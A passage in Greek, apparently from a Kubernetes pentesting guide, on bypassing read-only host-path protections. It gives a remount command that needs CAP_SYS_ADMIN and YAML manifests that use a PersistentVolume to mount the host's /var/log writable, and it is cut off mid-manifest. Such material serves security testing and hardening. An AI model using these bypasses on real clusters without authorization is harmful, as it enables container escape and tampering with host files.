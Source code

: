 #### Παράκαμψη προστασίας readOnly <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

Αν είστε αρκετά τυχεροί και η πολύ προνομιακή δυνατότητα `CAP_SYS_ADMIN` είναι διαθέσιμη, μπορείτε απλά να ξανατοποθετήσετε τον φάκελο ως rw:
```bash
mount -o rw,remount /hostlogs/
```
#### Παράκαμψη προστασίας hostPath readOnly <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

Όπως αναφέρεται σε [**αυτή την έρευνα**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), είναι δυνατόν να παρακαμφθεί η προστασία:
```yaml
allowedHostPaths:
- pathPrefix: "/foo"
readOnly: true
```
Που προοριζόταν να αποτρέψει τις διαρροές όπως οι προηγούμενες, χρησιμοποιώντας αντί για hostPath mount, ένα PersistentVolume και ένα PersistentVolumeClaim για να τοποθετήσει έναν φάκελο του host στο κοντέινερ με δικαιώματα εγγραφής:
```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
name: task-pv-volume-vol
labels:
type: local
spec:
storageClassName: manual
capacity:
storage: 10Gi
accessModes:
- ReadWriteOnce
hostPath:
path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
name: task-pv-claim-vol
spec:
storageClassName: manual
accessModes:
- ReadWriteOnce
resources:
requests:
storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
name: task-pv-pod
spec:
volumes:
- name: task-pv-storage-vol
persistentVolumeClaim:
claimName: task-pv-claim-vol
containers:
- name: task-pv-container
image: ubuntu:latest
command: ["sh", "-c", "sleep 1h"]
volumeMounts:
```